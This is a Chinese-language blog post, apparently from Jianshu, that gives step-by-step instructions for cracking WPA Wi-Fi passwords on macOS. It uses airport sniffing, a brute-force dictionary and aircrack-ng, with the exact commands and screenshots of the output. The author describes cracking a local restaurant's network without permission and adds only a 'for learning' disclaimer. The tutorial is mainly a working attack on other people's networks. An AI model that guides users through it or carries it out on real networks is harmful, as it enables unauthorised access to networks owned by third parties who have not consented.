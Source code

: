 ####序章
今天学了破解wifi密码，屁颠屁颠跑去新爸爸测试，搞了我两小时都没破出来， 不过地下一楼的家香记到是花了29秒破解了（速度快慢取决与你的字典）。
![image.png](http://upload-images.jianshu.io/upload_images/6634703-d222691c83f469f4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

CPU八核满仓跑，确实烧电脑
![image.png](http://upload-images.jianshu.io/upload_images/6634703-6d61ee1ab697396d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
做了虚心事的我，拍照都不敢正面拍了，认识这家店的小伙伴多去吃吃哈，卤鸡腿很鲜美。回来的路上，一脚踩空，脚踝扭了，提醒我不要再干这事啦～～！
![image.png](http://upload-images.jianshu.io/upload_images/6634703-ba16101f93ec843a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
***最后我想说写这篇教程，仅仅用于技能学习交流，如发生任何违法事件，均与本人无关***
***
####1. 安装Xcode和MacPorts
- Xcode 可以在App Store 里面下
- MacPorts 去官网下https://www.macports.org/install.php
![image.png](http://upload-images.jianshu.io/upload_images/6634703-9ee51014d780ed7f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
####2. 安装 aircrack-ng
```
sudo port -v selfupdate
sudo port install aircrack-ng
```
- 查看是否安装成功
![image.png](http://upload-images.jianshu.io/upload_images/6634703-b50c9e3770d7f8ba.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
####3. 获取所有无线网络
- 建立一个连接
```
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```
- 查看所有无线网络
```
airport -s
```
![image.png](http://upload-images.jianshu.io/upload_images/6634703-be81b433e905fce6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
####4. 开始抓包与监听
- 需要输入密码
- 监听的时候会自动断网
- 抓包抓的是，在你监听的时候，有人连接此Wi-Fi，你可以找一个朋友在你监听的时候重新输入密码连接一下网络，这样会快一些，不然你等别人连接Wi-Fi可能需要一些时间
- 按control+c 结束进程，cap包文件自动保存在/tmp 文件夹下面（/tmp 文件夹，电脑重启自动删除）
```
sudo airport en0 sniff 1
```
![image.png](http://upload-images.jianshu.io/upload_images/6634703-5ac17dfa44930fe5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
####5. 收集字典
- 我用的是下面这位大神的字典，你可以多试试几个txt 文件
```
https://github.com/rootphantomer/Blasting_dictionary
```
####6. 查看cap文件中数据
- 在Finder 下查找／tmp 文件
![image.png](http://upload-images.jianshu.io/upload_images/6634703-3dc8bf85fa36026b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
- 找到cap 文件，把他拖到桌面
- 在桌面建立文件夹wifiCrack
- 把你的字典.txt 文件也拖进来
![image.png](http://upload-images.jianshu.io/upload_images/6634703-bec7813d88e8b2dc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
```
cd Desktop/wifiCrack/家香记/
aircrack-ng -w 超级字典.txt airportSniffV9NQma.cap
```
![image.png](http://upload-images.jianshu.io/upload_images/6634703-9621d2ec3ab247a6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
- control +f  寻找“1 handshake”,如果找到，进入步骤#7，如果没找到（即都是0）回到步骤#4
####7. 开始破解
- 在“Index number of target nertwork ？”后面输入你找到的index, 我是8，然后按回车
- 有些密码很复杂，可能需要等很久，有些很简单，比如全是阿拉伯数字的，这个字典破不了就换个字典玩玩，实在不行就暴力破解
![image.png](http://upload-images.jianshu.io/upload_images/6634703-137b37428d6bbbb4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
- 恭喜你，完美破解！
![image.png](http://upload-images.jianshu.io/upload_images/6634703-1bee06547d038205.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
####8. 参考文献
1. https://github.com/rootphantomer/Blasting_dictionary (字典)
2. http://cdn2.jianshu.io/p/f49b6691a6b7 （aircrack-ng破解wifi）
3. http://www.jianshu.com/p/67c0277fd5bc （Mac破解Wifi密码教程）
4. http://www.jianshu.com/p/d3922131319d （三分钟教你破解WIFI无线密码）

